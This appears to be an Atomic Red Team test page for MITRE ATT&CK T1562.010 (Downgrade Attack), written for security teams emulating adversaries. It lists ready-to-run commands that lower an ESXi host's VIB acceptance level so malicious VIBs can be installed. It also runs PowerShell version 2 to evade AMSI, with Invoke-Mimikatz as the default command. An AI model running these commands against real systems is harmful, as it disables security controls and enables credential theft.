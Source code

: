 # T1562.010 - Impair Defenses: Downgrade Attack
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1562/010)
<blockquote>Adversaries may downgrade or use a version of system features that may be outdated, vulnerable, and/or does not support updated security controls. Downgrade attacks typically take advantage of a system’s backward compatibility to force it into less secure modes of operation. 

Adversaries may downgrade and use various less-secure versions of features of a system, such as [Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059)s or even network protocols that can be abused to enable [Adversary-in-the-Middle](https://attack.mitre.org/techniques/T1557) or [Network Sniffing](https://attack.mitre.org/techniques/T1040).(Citation: Praetorian TLS Downgrade Attack 2014) For example, [PowerShell](https://attack.mitre.org/techniques/T1059/001) versions 5+ includes Script Block Logging (SBL) which can record executed script content. However, adversaries may attempt to execute a previous version of PowerShell that does not support SBL with the intent to [Impair Defenses](https://attack.mitre.org/techniques/T1562) while running malicious scripts that may have otherwise been detected.(Citation: CrowdStrike BGH Ransomware 2021)(Citation: Mandiant BYOL 2018)(Citation: att_def_ps_logging)

Adversaries may similarly target network traffic to downgrade from an encrypted HTTPS connection to an unsecured HTTP connection that exposes network data in clear text.(Citation: Targeted SSL Stripping Attacks Are Real)(Citation: Crowdstrike Downgrade)</blockquote>

## Atomic Tests

- [Atomic Test #1 - ESXi - Change VIB acceptance level to CommunitySupported via PowerCLI](#atomic-test-1---esxi---change-vib-acceptance-level-to-communitysupported-via-powercli)

- [Atomic Test #2 - ESXi - Change VIB acceptance level to CommunitySupported via ESXCLI](#atomic-test-2---esxi---change-vib-acceptance-level-to-communitysupported-via-esxcli)

- [Atomic Test #3 - PowerShell Version 2 Downgrade](#atomic-test-3---powershell-version-2-downgrade)


<br/>

## Atomic Test #1 - ESXi - Change VIB acceptance level to CommunitySupported via PowerCLI
An adversary can change the VIB acceptance level to CommunitySupported to downgrade the acceptance criteria.This can be accomplished via PowerCLI. Afterwards an adversary may proceed to installing malicious VIBs on the host.
[Reference](https://www.mandiant.com/resources/blog/esxi-hypervisors-detection-hardening)

**Supported Platforms:** Linux


**auto_generated_guid:** 062f92c9-28b1-4391-a5f8-9d8ca6852091





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| vm_host | Specify the host name of the ESXi Server | string | atomic.local|
| vm_user | Specify the privilege user account on ESXi Server | string | root|
| vm_pass | Specify the privilege user password on ESXi Server | string | pass|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-PowerCLIConfiguration -InvalidCertificateAction Ignore -ParticipateInCEIP:$false -Confirm:$false 
Connect-VIServer -Server #{vm_host} -User #{vm_user} -Password #{vm_pass}
(Get-EsxCli -VMHost #{vm_host} -V2).software.acceptance.set.Invoke(@{level = "CommunitySupported"})
Disconnect-VIServer -Confirm:$false
```




#### Dependencies:  Run with `powershell`!
##### Description: Check if VMWARE PowerCLI PowerShell Module is installed.
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name VMware.PowerCLI -ListAvailable
if (-not $RequiredModule) {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name VMware.PowerCLI -Confirm:$false
```




<br/>
<br/>

## Atomic Test #2 - ESXi - Change VIB acceptance level to CommunitySupported via ESXCLI
An adversary will change the VIB acceptance level to CommunitySupported to downgrade the acceptance criteria via ESXCLI. Afterwards an adversary may proceed to installing malicious VIBs on the host.
[Reference](https://www.mandiant.com/resources/blog/esxi-hypervisors-detection-hardening)

**Supported Platforms:** Windows


**auto_generated_guid:** 14d55b96-b2f5-428d-8fed-49dc4d9dd616





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| vm_host | Specify the host name of the ESXi Server | string | atomic.local|
| vm_user | Specify the privilege user account on ESXi Server | string | root|
| vm_pass | Specify the privilege user password on ESXi Server | string | pass|
| plink_file | Path to plink | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;plink.exe|
| cli_script | Path to script with commands to change acceptance level | path | PathToAtomicsFolder&#92;T1562.010&#92;src&#92;esx_community_supported.txt|


#### Attack Commands: Run with `command_prompt`! 


```cmd
echo "" | "#{plink_file}" "#{vm_host}" -ssh  -l "#{vm_user}" -pw "#{vm_pass}" -m "#{cli_script}"
```




#### Dependencies:  Run with `powershell`!
##### Description: Check if plink is available.
##### Check Prereq Commands:
```powershell
if (Test-Path "#{plink_file}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe" -OutFile "#{plink_file}"
```




<br/>
<br/>

## Atomic Test #3 - PowerShell Version 2 Downgrade
Executes outdated PowerShell Version 2 which does not support security features like AMSI. By default the atomic will attempt to execute the cmdlet Invoke-Mimikatz whether it exists or not, as this cmdlet will be blocked by AMSI when active.

**Supported Platforms:** Windows


**auto_generated_guid:** 47c96489-2f55-4774-a6df-39faff428f6f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| v2_command | Specify the command to execute with Version 2 | string | Invoke-Mimikatz|


#### Attack Commands: Run with `powershell`! 


```powershell
PowerShell -version 2 -command '#{v2_command}'
```




#### Dependencies:  Run with `powershell`!
##### Description: Check if Version 2 is installed.
##### Check Prereq Commands:
```powershell
$v2_installed = PowerShell -version 2 -command '$PSVersionTable.PSVersion.Major'
if (-not $v2_installed) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
echo "Manually install PowerShell Version 2"
```




<br/>
